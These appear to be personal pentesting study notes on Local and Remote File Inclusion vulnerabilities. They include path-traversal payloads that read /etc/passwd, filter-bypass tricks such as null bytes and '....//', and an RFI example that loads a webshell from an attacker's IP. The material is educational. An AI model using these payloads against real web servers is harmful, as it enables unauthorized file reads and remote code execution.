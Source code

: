 Local and Remote File Inclusion vulnerabilities affect web servers with unsanitized inputs into a field used to select a specific file on a device. Good candidates for LFI/RFI are language fields, as these usually serve an entirely different webpage. 

Tools:
- [[Burp Suite]]
# LFI
To test, use the `..` operator to maneuver through the filesystem and select the information you are looking for. Ex: `?site=default&lang=../../../../../../../etc/passwd`.

Methods exist of protecting against this attack that are also able to be bypassed. These include:
- Appending a suffix to the string provided; `/etc/passwd` becomes `/etc/passwd.php`
	- Defeated (before a current version of PHP) by appending `%00` to stop PHP processing the string before the suffix is reached. 
- Filtering out `../` sequences.
	- Defeated by building a string that works after the filter has been applied: `....//` -> `../`
- Forcing the request to select from the current directory; `www/`
	- Defeated by selecting from this directory first, and then traversing out; `www/../../../../../`
- Blacklisting special files; `/etc/passwd` disallowed
	- Defeated by path traversal again; `/etc/passwd` -> `/etc/passwd/.`
Some other vulnerabilities also include:
- Filtering only on one request type. For $\_REQUEST calls, the request can be made as either a GET or a POST, but one method may be filtered while the other is not.

# RFI
RFI is even more problematic, because it can lead to immediate RCE. If a web server is horribly misconfigured, the field can be used to point the file requestor method to an http(s) server serving the file. If the file is an executable format like PHP, a webshell or even reverse shell can be planted on the target host and executed from the browser.  Ex: `?site=default&lang=http://<my ip>/webshell.php`. 

*Even if a webshell cannot be uploaded and called into* we may still upload a 
PHP reverse shell and gain command execution on the web server.

For more information on File Inclusion vulnerabilities, see the TryHackMe Junior Pentester Path. In its' Intro to Web Hacking module, they have a room on File Inclusion vulnerabilities. 
